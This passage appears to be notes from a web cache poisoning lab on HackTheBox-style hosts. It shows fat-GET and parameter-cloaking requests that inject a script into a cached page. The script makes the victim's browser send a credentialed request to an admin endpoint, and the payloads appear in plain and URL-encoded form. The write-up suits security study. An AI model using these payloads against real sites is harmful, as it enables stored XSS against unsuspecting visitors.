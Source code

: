 ```http
GET /index.php?language=de HTTP/1.1
Host: fatget.wcp.htb
Content-Length: 142

ref="><script>var xhr = new XMLHttpRequest();xhr.open('GET', '/admin.php?reveal_flag=1', true);xhr.withCredentials = true;xhr.send();</script>
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/wcp/Pasted%20image%2020231223212926.png)

### Parameter Cloaking

Payload with all ; URL encoded:

```bash
ref=a%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest()%3Bxhr.open(%27GET%27,%20%27/admin.php?reveal_flag=1%27,%20true)%3Bxhr.withCredentials%20=%20true%3Bxhr.send()%3B%3C/script%3E
```
The web cache sees two GET parameters: `language` with the value `en` and `a` with the value `b;language=de`. On the other hand, Bottle sees three parameters: `language` with the value `en`, `a` with the value `b`, and `language` with the value `de`. Since Bottle prefers the last occurrence of each parameter, the value `de` overrides the value for the language parameter. Thus, Bottle serves the response containing the German text. Since the parameter `a` is unkeyed, the web cache stores this response for the cache key `language=en`.
```http
GET /?language=en&a=b;language=de HTTP/1.1
Host: cloak.wcp.htb
```

sent multiple parameters with ; (separator)
***a, b are unkeyed parameter (we need to use unkeyed to append keyed (language))
language, content and ref are keyed***

```http
GET /?language=de&a=b;ref=%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest()%3bxhr.open(%27GET%27,%20%27/admin?reveal_flag=1%27,%20true)%3bxhr.withCredentials%20=%20true%3bxhr.send()%3b%3C/script%3E HTTP/1.1
Host: cloak.wcp.htb
```

### Exercise Web Cache 1 (GET FAT)

Parameter content and language are keyed 